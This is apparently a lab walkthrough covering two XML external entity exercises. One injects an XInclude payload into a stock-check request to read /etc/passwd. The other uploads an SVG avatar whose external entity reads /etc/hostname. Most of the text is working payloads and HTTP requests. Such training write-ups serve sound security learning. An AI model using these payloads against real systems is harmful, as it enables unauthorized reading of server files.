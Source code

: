 ### Lab: Exploiting XInclude to retrieve files

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

**Base payload ->**

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```
POST /product/stock HTTP/1.1
...
productId=10&storeId=1
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### Lab: Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

**image.svg ->**

```
<?xml version="1.0" standalone="yes"?>
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
	<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
		<text font-size="16" x="0" y="16">&xxe;</text>
	</svg>
```

Post a comment with image.svg as an avatar.

You can see the value in the photo. -> 3929646265aa
